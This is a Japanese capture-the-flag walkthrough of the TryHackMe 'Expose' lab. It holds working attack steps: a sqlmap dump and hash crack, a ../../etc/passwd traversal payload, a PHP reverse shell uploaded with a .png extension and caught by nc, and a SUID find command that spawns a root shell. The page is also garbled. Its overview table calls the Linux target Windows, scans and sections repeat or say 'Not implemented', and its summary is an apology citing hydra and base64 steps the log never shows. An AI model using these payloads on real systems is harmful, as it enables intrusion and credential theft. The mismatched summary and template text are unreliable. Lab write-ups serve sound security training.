

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | 21/tcp open  ftp, 22/tcp open  ssh, 53/tcp open  domain, 21/tcp    open     ftp, 22/tcp    open     ssh, 53/tcp    open     domain |
| 主な侵入経路 | brute-force, sqli, lfi |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap
```bash
nmap -sV -sT -sC $ip
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 20:53 JST
Nmap scan report for 10.10.180.183
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.87.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:ba:3c:00:a5:04:99:e5:2c:56:77:56:da:ec:06:01 (RSA)
|   256 cf:35:cb:1e:e8:e9:02:ab:e9:eb:e8:ab:93:ab:31:25 (ECDSA)
|_  256 fe:9c:1d:14:3c:df:7b:90:66:e8:f7:39:a5:f1:14:86 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.12 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

[https://0xb0b.gitbook.io/writeups/tryhackme/2023/expose](https://0xb0b.gitbook.io/writeups/tryhackme/2023/expose)

[https://medium.com/@rckljuskat/tryhackme-writeup-expose-cfe25f439bc5](https://medium.com/@rckljuskat/tryhackme-writeup-expose-cfe25f439bc5)

### 探索

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 20:53 JST
Nmap scan report for 10.10.180.183
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.87.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:ba:3c:00:a5:04:99:e5:2c:56:77:56:da:ec:06:01 (RSA)
|   256 cf:35:cb:1e:e8:e9:02:ab:e9:eb:e8:ab:93:ab:31:25 (ECDSA)
|_  256 fe:9c:1d:14:3c:df:7b:90:66:e8:f7:39:a5:f1:14:86 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.12 seconds
```

21のFTPが開いてるから色々見れそう。
あとanonymousログイン許可されてる

一旦ログインしてみる

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ ftp $ip                                                                                                        
Connected to 10.10.102.220.
220 Welcome to the Expose Web Challenge.
Name (10.10.102.220:n0z0): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||58509|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd /
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||42375|)
550 Permission denied.
ftp> exit
421 Timeout.
```

何も見つからなかった

アップロードしてみたけど権限不足でアップロードできなかった

再度全ポートに対してポートスキャンしたら
隠れてたポートがあった。
網羅的にやるなら全ポートをポートスキャンすべしだね。しよう。

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ time nmap -p- -sC -sV -T4 $ip                                                                                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 21:01 JST
Nmap scan report for 10.10.180.183
Host is up (0.23s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE    SERVICE                 VERSION
21/tcp    open     ftp                     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.87.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:ba:3c:00:a5:04:99:e5:2c:56:77:56:da:ec:06:01 (RSA)
|   256 cf:35:cb:1e:e8:e9:02:ab:e9:eb:e8:ab:93:ab:31:25 (ECDSA)
|_  256 fe:9c:1d:14:3c:df:7b:90:66:e8:f7:39:a5:f1:14:86 (ED25519)
53/tcp    open     domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp  open     http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp  open     mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/messages/sent/1min: 0.91
|     $SYS/broker/load/sockets/1min: 1.06
|     $SYS/broker/load/messages/sent/15min: 0.07
|     $SYS/broker/heap/maximum: 49688
|     $SYS/broker/store/messages/bytes: 180
|     $SYS/broker/bytes/sent: 4
|     $SYS/broker/load/sockets/15min: 0.12
|     $SYS/broker/load/connections/5min: 0.20
|     $SYS/broker/messages/sent: 1
|     $SYS/broker/load/messages/received/1min: 0.91
|     $SYS/broker/load/bytes/received/5min: 3.53
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/uptime: 1584 seconds
|     $SYS/broker/load/bytes/received/1min: 16.45
|     $SYS/broker/load/bytes/sent/15min: 0.27
|     $SYS/broker/messages/received: 1
|     $SYS/broker/load/sockets/5min: 0.33
|     $SYS/broker/load/messages/sent/5min: 0.20
|     $SYS/broker/load/connections/1min: 0.91
|     $SYS/broker/load/bytes/received/15min: 1.19
|     $SYS/broker/bytes/received: 18
|     $SYS/broker/load/bytes/sent/1min: 3.65
|     $SYS/broker/load/connections/15min: 0.07
|     $SYS/broker/load/messages/received/5min: 0.20
|     $SYS/broker/load/bytes/sent/5min: 0.79
|_    $SYS/broker/load/messages/received/15min: 0.07
34781/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.28 seconds

real    17m24.304s
user    0m13.131s
sys     0m39.908s

```

サブディレクトリの列挙

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Expose]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://$ip:1337/FUZZ -recursion -recursion-depth 1 -ic -c
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.118.179:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 2420ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4430ms]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 249ms]
[INFO] Adding a new job to the queue: http://10.10.118.179:1337/admin/FUZZ

admin_101               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 244ms]
[INFO] Adding a new job to the queue: http://10.10.118.179:1337/admin_101/FUZZ

javascript              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 244ms]
[INFO] Adding a new job to the queue: http://10.10.118.179:1337/javascript/FUZZ

phpmyadmin              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 244ms]
[INFO] Adding a new job to the queue: http://10.10.118.179:1337/phpmyadmin/FUZZ

server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 244ms]
[INFO] Starting queued job on target: http://10.10.118.179:1337/admin/FUZZ

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 248ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 244ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin/assets/
modules                 [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 243ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin/modules/
[INFO] Starting queued job on target: http://10.10.118.179:1337/admin_101/FUZZ

.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
assets                  [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 244ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin_101/assets/
includes                [Status: 301, Size: 334, Words: 20, Lines: 10, Duration: 245ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin_101/includes/
modules                 [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 245ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin_101/modules/
test                    [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 272ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/admin_101/test/
[INFO] Starting queued job on target: http://10.10.118.179:1337/javascript/FUZZ

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
jquery                  [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 246ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/javascript/jquery/
[INFO] Starting queued job on target: http://10.10.118.179:1337/phpmyadmin/FUZZ

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 246ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 248ms]
doc                     [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 232ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/phpmyadmin/doc/
favicon.ico             [Status: 200, Size: 22486, Words: 70, Lines: 98, Duration: 284ms]
js                      [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 234ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/phpmyadmin/js/
libraries               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 233ms]
locale                  [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 235ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/phpmyadmin/locale/
sql                     [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 233ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/phpmyadmin/sql/
templates               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 232ms]
themes                  [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 233ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.118.179:1337/phpmyadmin/themes/
:: Progress: [20469/20469] :: Job [5/5] :: 170 req/sec :: Duration: [0:02:01] :: Errors: 0 ::

```

adminとadmin101が見つかってそれぞれアクセスすると
メアドが手に入る


*Caption: Screenshot captured during expose attack workflow (step 1).*

burpでアクセスしてアクセス情報をダンプすると色々出るらしい。


*Caption: Screenshot captured during expose attack workflow (step 2).*

ダンプしたファイルをsqlmapで読み込ませたら
新しいディレクトリとパスワードが出てきた

```
                                                                                                   
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Expose]
└─$ sqlmap -r req --dump
        ___
       __H__                                                                                                       
 ___ ___[(]_____ ___ ___  {1.8.7#stable}                                                                           
|_ -| . [)]     | .'| . |                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:46:18 /2024-08-19/

[
[03:09:22] [INFO] fetching entries for table 'config' in database 'expose'
[03:09:22] [INFO] retrieved: '/file1010111/index.php'
[03:09:23] [INFO] retrieved: '1'
[03:09:23] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[03:09:24] [INFO] retrieved: '/upload-cv00101011/index.php'
[03:09:24] [INFO] retrieved: '3'
[03:09:24] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[03:09:24] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[03:09:56] [INFO] writing hashes to a temporary file '/tmp/sqlmaprlmsp53p715548/sqlmaphashes-nusw6j16.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[03:09:58] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[03:10:32] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[03:10:38] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[03:10:38] [INFO] starting 16 processes 
[03:10:40] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                       
Database: expose                                                                                                  
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

[03:10:44] [INFO] table 'expose.config' dumped to CSV file '/home/n0z0/.local/share/sqlmap/output/10.10.118.179/dump/expose/config.csv'                                                                                               
[03:10:44] [INFO] fetching columns for table 'user' in database 'expose'
[03:10:44] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[03:10:45] [INFO] retrieved: 'id'
[03:10:45] [INFO] retrieved: 'int'
[03:10:46] [INFO] retrieved: 'email'
[03:10:46] [INFO] retrieved: 'varchar(512)'
[03:10:46] [INFO] retrieved: 'password'
[03:10:47] [INFO] retrieved: 'varchar(512)'
[03:10:47] [INFO] retrieved: 'created'
[03:10:47] [INFO] retrieved: 'timestamp'
[03:10:47] [INFO] fetching entries for table 'user' in database 'expose'
[03:10:48] [INFO] retrieved: '2023-02-21 09:05:46'
[03:10:48] [INFO] retrieved: 'hacker@root.thm'
[03:10:49] [INFO] retrieved: '1'
[03:10:49] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[03:10:49] [INFO] table 'expose.`user`' dumped to CSV file '/home/n0z0/.local/share/sqlmap/output/10.10.118.179/dump/expose/user.csv'                                                                                                 
[03:10:49] [WARNING] HTTP error codes detected during run:
414 (Request-URI Too Long) - 1 times
[03:10:49] [INFO] fetched data logged to text files under '/home/n0z0/.local/share/sqlmap/output/10.10.118.179'

[*] ending @ 03:10:49 /2024-08-19/

```

URLに対してトラバーサルアタックするとパスワードの一覧が出てきた

```
http://10.10.123.251:1337/file1010111/index.php?file=../../../../etc/passwd
```


*Caption: Screenshot captured during expose attack workflow (step 3).*

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash
ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:115:122::/var/cache/bind:/usr/sbin/nologin
Debian-snmp:x:116:123::/var/lib/snmp:/bin/false
redis:x:117:124::/var/lib/redis:/usr/sbin/nologin
mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin
fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin

```

アップロードサイトになってたから、リバースシェルを送り付けた。
画像しか送れないから拡張子をpngにする


*Caption: Screenshot captured during expose attack workflow (step 4).*

アップロードしてダウンロードするとリバースシェル成功

```
[http://10.10.102.93:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/php-reverse-shell.php.png](http://10.10.102.93:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/php-reverse-shell.php.png)
```

リバースシェルは成功したけど権限が足りなかった。
sshのログイン情報らしきものがあったからそこからログインした

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nc -lvnp 3333                                                                                                  
listening on [any] 3333 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.102.93] 33454
Linux ip-10-10-102-93 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:09:49 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-102-93:/$ 
www-data@ip-10-10-102-93:/$ cd /home    
cd /home
www-data@ip-10-10-102-93:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root     root     4096 Jun 30  2023 .
drwxr-xr-x 20 root     root     4096 Aug 19 14:44 ..
drwxr-xr-x  8 ubuntu   ubuntu   4096 Jul  6  2023 ubuntu
drwxr-xr-x  3 zeamkish zeamkish 4096 Jul  6  2023 zeamkish
www-data@ip-10-10-102-93:/home$ cd zeamkish
cd zeamkish
www-data@ip-10-10-102-93:/home/zeamkish$ ls -la
ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
www-data@ip-10-10-102-93:/home/zeamkish$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
www-data@ip-10-10-102-93:/home/zeamkish$ cat ssh_creds.txt
cat ssh_creds.txt
SSH CREDS
zeamkish
easytohack@123
```

### ユーザフラグ取得

SHするとuserflagは取得できた

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Expose]
└─$ ssh zeamkish@$ip                                                                                  
The authenticity of host '10.10.123.251 (10.10.123.251)' can't be established.
ED25519 key fingerprint is SHA256:0CnzVewKlFWXD0Ne/HK7pmvfqlsMrqeZo739OrunXQQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.123.251' (ED25519) to the list of known hosts.
zeamkish@10.10.123.251's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug 22 14:17:06 UTC 2024

  System load:  0.0               Processes:             124
  Usage of /:   7.1% of 58.09GB   Users logged in:       0
  Memory usage: 16%               IPv4 address for eth0: 10.10.123.251
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Jul  2 17:27:46 2023 from 10.10.83.109
zeamkish@ip-10-10-123-251:~$ ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
zeamkish@ip-10-10-123-251:~$ cat flag.txt 
THM{USER_FLAG_1231_EXPOSE}
zeamkish@ip-10-10-123-251:~$ 

```

### 権限昇格

SUIDが設定されてて利用できるコマンドがないか確認

```bash
find / -perm -4000 2>/dev/null
zeamkish@ip-10-10-123-251:~$  find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/at
/usr/bin/mount
zeamkish@ip-10-10-123-251:~$ 
```

findが使えそうだったから探してみる

[https://gtfobins.github.io](https://gtfobins.github.io/)

-pを設定することで管理者権限でシェルを起動できる

```bash
find . -exec /bin/sh -p \; -quit
zeamkish@ip-10-10-123-251:~$ find . -exec /bin/sh -p \; -quit
bash-5.0# ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
bash-5.0# cat flag.txt 
THM{USER_FLAG_1231_EXPOSE}
bash-5.0# 

```

### 要約

申し訳ありませんが、提供されたリンクの内容に関する具体的な情報が現在のコンテキストには含まれていません。そのため、それらのwriteupの要約を提供することはできません。

ただし、Exposeという名前のTryHackMeのチャレンジに関する一般的な情報はコンテキストに含まれています。このチャレンジでは以下のような手順が含まれていたようです:

- nmap、FFuFなどのツールを使用した初期の偵察
- Webアプリケーションの脆弱性（パラメータ操作、ディレクトリトラバーサルなど）の悪用
- base64でエンコードされた認証情報の発見とデコード
- hydraを使用したSSHブルートフォース攻撃
- サーバー内のファイルシステムへのアクセスとフラグの取得

これらの手順は一般的なペネトレーションテストの流れを示していますが、具体的な詳細や完全な解決方法については提供されたコンテキストからは確認できません。

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```bash
ssh zeamkish@$ip
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Expose]
└─$ ssh zeamkish@$ip                                                                                  
The authenticity of host '10.10.123.251 (10.10.123.251)' can't be established.
